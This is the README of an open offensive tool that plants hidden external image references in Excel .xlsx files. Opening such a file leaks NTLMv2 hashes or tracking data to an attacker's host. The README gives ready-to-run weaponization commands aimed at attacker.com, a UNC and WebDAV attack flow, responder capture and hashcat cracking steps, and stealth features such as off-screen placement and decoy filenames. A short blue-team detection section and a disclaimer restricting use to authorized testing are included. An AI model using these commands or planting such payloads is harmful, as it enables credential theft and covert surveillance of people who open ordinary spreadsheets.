


<div align="center">



# ExcelCoon

**Inject invisible tracking and NTLM hash-capture payloads into Excel `.xlsx` files.**

No macros. No prompts. Just a spreadsheet doing spreadsheet things.

[](https://www.python.org/downloads/)
[](LICENSE)
[](#)

</div>

---

## Demo

> ExcelCoon weaponizes an Excel file, a capture server catches the NTLM handshake,
> and the victim's hash is extracted -- all from opening a spreadsheet.

<div align="center">



</div>

**What you're seeing:**

1. ExcelCoon injects a hidden WebDAV image reference into a `.xlsx` file
2. The attacker starts an NTLM capture server
3. The victim opens the file -- Excel discovers the external image and Windows automatically sends NTLMv2 credentials
4. Hash captured. Ready for `hashcat -m 5600`.

<details>
<summary><b>Run the demo yourself</b></summary>

```bash
# One command -- builds container, runs demo, outputs GIF
docker compose -f docker-compose.demo.yml up --build

# Or run interactively
docker compose -f docker-compose.demo.yml run --rm demo bash
```

The demo runs end-to-end inside a single container: no faking, no simulation.
The `.xlsx` is actually opened, the OOXML structure is parsed, the external WebDAV
reference is discovered and followed, and a real 3-step NTLM handshake captures the hash.

</details>

---

## Table of Contents

- [Attack Flow](#attack-flow)
- [Features](#features)
- [Installation](#installation)
- [Quick Start](#quick-start)
- [Usage](#usage)
- [Injection Modes](#injection-modes)
- [How It Works](#how-it-works)
- [Project Structure](#project-structure)
- [Running Tests](#running-tests)
- [Detection & Defense](#detection--defense)
- [Legal Disclaimer](#legal-disclaimer)

---

## Attack Flow

```
  Attacker                          Victim
  ────────                          ──────
  excelcoon -m webdav               
  -H attacker.com                   
       │                              
       ▼                              
  quarterly_report.xlsx ──────────► Opens in Excel
                                       │
                                       ▼
                              Excel parses OOXML
                              Finds external image ref:
                              \\attacker.com@80\img.png
                                       │
                                       ▼
                              Windows WebClient service
                              converts UNC → HTTP request
                                       │
  ┌────────────────────────────────────┘
  │
  ▼
  Capture Server (port 80)
  ← HTTP 401 (WWW-Authenticate: NTLM)
  → NTLM Type 1 (Negotiate)
  ← NTLM Type 2 (Challenge)
  → NTLM Type 3 (Authenticate)  ◄── Hash captured here
  
  jsmith::CORP:1122334455667788:c657...
  
  $ hashcat -m 5600 hash.txt rockyou.txt
```

---

## Features

| Category | Feature | Description |
|----------|---------|-------------|
| **Modes** | HTTP tracking | Capture IP, User-Agent, and open-time |
| | SMB hash capture | NTLMv2 via UNC path (LAN) |
| | WebDAV hash capture | NTLMv2 over HTTP/S (remote) |
| **Stealth** | Off-screen placement | Image anchored at randomized coordinates far outside view |
| | Legit resource names | Random filenames like `logo.png`, `analytics.js` |
| | Existing drawing support | Injects into existing drawings without breaking the file |
| | rId collision avoidance | Safely handles worksheets with existing relationships |
| **Workflow** | Batch mode | Process multiple files with glob patterns |
| | Check mode | Detect if files have been weaponized |
| | Interactive wizard | Guided step-by-step mode for beginners |
| | JSON output | Machine-readable results for automation |
| | Quiet mode | Silent operation for scripting (exit codes only) |
| **Design** | Zero dependencies | Pure Python standard library |
| | Cross-platform | Windows, macOS, Linux |
| | Single file | One `excelcoon.py` -- drop it anywhere |

---

## Installation

```bash
git clone https://github.com/BenjiTrapp/ExcelCoon-weaponizer.git
cd ExcelCoon-weaponizer
```

No dependencies required. Works with Python 3.9+.

**Optional** -- install as a CLI tool:

```bash
pip install .
# Then use: excelcoon -i file.xlsx -m http -H host.com
```

---

## Quick Start

```bash
# Simplest usage (auto-generates output filename):
python excelcoon.py -i report.xlsx -m http -H myserver.com
# Output: report_weaponized.xlsx

# Interactive mode (guided wizard):
python excelcoon.py
```

---

## Usage

```
python excelcoon.py -i <input> -m <mode> -H <host> [options]
```

### Required Arguments

| Argument | Description |
|----------|-------------|
| `-i`, `--input` | Input `.xlsx` file (supports glob patterns for batch mode) |
| `-m`, `--mode` | Injection mode: `http`, `smb`, or `webdav` |
| `-H`, `--host` | Target host/IP where callbacks will be received |

### Optional Arguments

| Argument | Description |
|----------|-------------|
| `-o`, `--output` | Output file path (default: `<input>_weaponized.xlsx`) |
| `-p`, `--path` | Custom resource path after host (default: random) |
| `--https` | Use HTTPS (HTTP mode) or SSL (WebDAV mode) |
| `-v`, `--verbose` | Detailed progress output |
| `-q`, `--quiet` | Suppress all output except errors |
| `--json` | Output results as JSON |

### Special Modes

| Command | Description |
|---------|-------------|
| `python excelcoon.py` | Interactive wizard (no arguments) |
| `python excelcoon.py --check <files>` | Analyze files for weaponization indicators |

---

## Examples

### HTTP Tracking Canary

```bash
python excelcoon.py -i quarterly_report.xlsx -m http -H myserver.com
```

### HTTPS with Custom Path

```bash
python excelcoon.py -i file.xlsx -m http -H myserver.com --https -p tracking/pixel.png
```

### SMB Hash Capture (LAN)

```bash
python excelcoon.py -i file.xlsx -m smb -H 192.168.1.100

# On your machine:
sudo responder -I eth0 -v
```

### WebDAV Hash Capture (Remote)

```bash
python excelcoon.py -i file.xlsx -m webdav -H attacker.com

# With SSL:
python excelcoon.py -i file.xlsx -m webdav -H attacker.com --https

# Capture:
sudo responder -I eth0 -wv
```

### Batch Processing

```bash
python excelcoon.py -i "reports/*.xlsx" -m http -H tracker.io
python excelcoon.py -i "C:\Docs\*.xlsx" -m smb -H 10.0.0.1
```

### Check / Scan Mode

```bash
python excelcoon.py --check document.xlsx
python excelcoon.py --check *.xlsx
```

```
[+] clean_file.xlsx: CLEAN - no external references found
[~] evil_file.xlsx: WEAPONIZED - 1 external reference(s) found
   > [HTTP tracking] http://attacker.com/cdn/logo.png
```

### JSON Output

```bash
python excelcoon.py -i file.xlsx -m http -H srv.io --json
```

```json
{
  "results": [
    {
      "input": "file.xlsx",
      "output": "file_weaponized.xlsx",
      "success": true,
      "mode": "http",
      "url": "http://srv.io/assets/logo.png"
    }
  ],
  "summary": { "total": 1, "succeeded": 1, "failed": 0 }
}
```

---

## Injection Modes

| Mode | URL Format | Captures | Detection Risk | Best For |
|------|-----------|----------|----------------|----------|
| **HTTP** | `http(s)://host/path` | IP, User-Agent, timestamp | Low | Canary tokens, tracking opens |
| **SMB** | `\\host\share\file` | NTLMv2 hash, username, hostname | Medium | LAN-based hash capture |
| **WebDAV** | `\\host@80\path` | NTLMv2 hash, username, hostname | Low-Medium | Remote hash capture over internet |

---

## How It Works

1. **Extract** -- The XLSX (a ZIP of XML files) is extracted to a temp directory
2. **Inject** -- A hidden 1x1px image element is added referencing your external URL
3. **Repack** -- Modified XML is repacked into a valid XLSX

### OOXML Files Modified

| File | Change |
|------|--------|
| `[Content_Types].xml` | Registers new drawing part |
| `xl/worksheets/sheet1.xml` | Adds `<drawing r:id="..."/>` reference |
| `xl/worksheets/_rels/sheet1.xml.rels` | Links worksheet to drawing file |
| `xl/drawings/drawingN.xml` | Contains the hidden image anchor |
| `xl/drawings/_rels/drawingN.xml.rels` | Points to external URL (`TargetMode="External"`) |

---

## Project Structure

```
ExcelCoon-weaponizer/
├── excelcoon.py               # CLI tool (single file, zero dependencies)
├── pyproject.toml             # Packaging metadata & entry point
├── Dockerfile.demo            # Self-contained demo container
├── docker-compose.demo.yml    # One-command demo runner
├── samples/
│   └── sample.xlsx            # Multi-sheet test file
├── scripts/
│   ├── ntlm_capture_server.py # Lightweight NTLM hash capture HTTP server
│   ├── victim_simulator.py    # Realistic Excel open simulation (OOXML + NTLM)
│   ├── demo-ntlm-capture.sh   # End-to-end attack chain demo
│   └── record-demo.sh         # asciinema recording + GIF conversion
├── output/
│   ├── demo.gif               # Recorded demo GIF
│   └── demo.cast              # asciinema recording
└── tests/
    └── test_excelcoon.py      # Test suite (core, validation, CLI, edge cases)
```

---

## Running Tests

```bash
python tests/test_excelcoon.py

# Or as module:
python -m tests.test_excelcoon
```

Test coverage includes weaponization for each mode, existing drawings, rId collisions, XML escaping, host/file validation, CLI output formats, batch/check mode, and edge cases (corrupt files, unknown modes, coordinate ranges).

---

## Detection & Defense

If you're on the blue team, look for:

- External image references in drawing relationship files (`TargetMode="External"`)
- Unexpected outbound network connections when opening Excel files
- Drawing anchors at unusual coordinates (columns >100, rows >500)
- UNC paths or WebDAV references in OOXML relationship files

Use the built-in scanner to audit suspicious files:

```bash
python excelcoon.py --check suspicious_file.xlsx
```

---

## Legal Disclaimer

This tool is intended for **authorized security testing and research only**.
Unauthorized use against systems you do not own or have explicit permission to test is illegal.
The authors assume no liability for misuse.

---

## Requirements

- Python 3.9+
- No external dependencies (standard library only)
- Works on Windows, macOS, Linux
- Docker (optional, for the demo)
